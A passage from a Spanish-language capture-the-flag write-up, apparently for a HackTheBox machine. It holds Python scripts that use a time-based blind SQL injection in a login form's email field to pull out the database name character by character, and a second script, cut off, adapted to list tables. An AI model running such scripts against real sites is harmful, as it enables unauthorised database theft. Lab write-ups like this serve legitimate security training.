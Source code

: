 ```null

        for position in range(1, 20):

            for character in characters:

                post_data = {
                    'email': "admin@europacorp.htb' and if(substr(database(),%d,1)='%s',sleep(%d),1)-- -" % (position, character, sqtime),
                    'password': 'test'

                }

                p1.status(post_data['email'])

                first_time = time.time()
                r = s.post(main_url, data=post_data)
                second_time = time.time()

                if second_time - first_time > sqtime:
                    database += character
                    p2.status(database)
                    break

    end_time = time.time()

if __name__ == '__main__':
    MakeRequest()
```

Después lo modifico para listar las tablas

```null
from pwn import *
import requests, pdb, signal, sys, time, string, urllib3

def def_handler(sig, frame):
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales

main_url = "https://admin-portal.europacorp.htb/login.php"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits + "-_"

sqtime = 5

# HTTPs Insecure OFF
urllib3.disable_warnings()


def MakeRequest():

    p1 = log.progress("SQLi")
    p2 = log.progress("Tables")

    s = requests.session()
    s.verify = False

    table = ""

    for tbls in range(1, 10):

```